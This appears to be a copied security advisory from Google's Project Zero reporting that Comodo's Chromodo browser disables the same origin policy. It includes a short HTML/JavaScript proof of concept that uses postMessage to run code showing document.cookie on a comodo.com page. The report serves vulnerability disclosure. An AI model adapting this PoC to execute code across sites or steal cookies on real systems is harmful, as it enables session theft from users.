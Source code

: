 # Comodo "Chromodo" Browser disables same origin policy, Effectively turning off web security

#### Reported by taviso@google.com, Jan 22 2016

When you install Comodo Internet Security, by default a new browser called Chromodo is installed and set as the default browser. Additionally, all shortcuts are replaced with Chromodo links and all settings, cookies, etc are imported from Chrome. They also hijack DNS settings, among other shady practices.

https://www.comodo.com/home/browsers-toolbars/chromodo-private-internet-browser.php

Chromodo is described as "highest levels of speed, security and privacy", but actually disables all web security. Let me repeat that, they **_disable the same origin policy_**.... ?!?..

To reproduce, do something like this:

```html
<html>
    <head></head>
    <body>

        <script>
            function steal_cookie(obj) {
                // Wait for the page to load
                setTimeout(function() {
                    obj.postMessage(JSON.stringify({
                        command: "execCode",
                        code:    "alert(document.cookie)",
                    }), "*");
                }, 2000);
            }
        </script>

        <a href="javascript:steal_cookie(window.open('https://ssl.comodo.com/'))">
            Click Here
        </a>

    </body>
</html>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=704
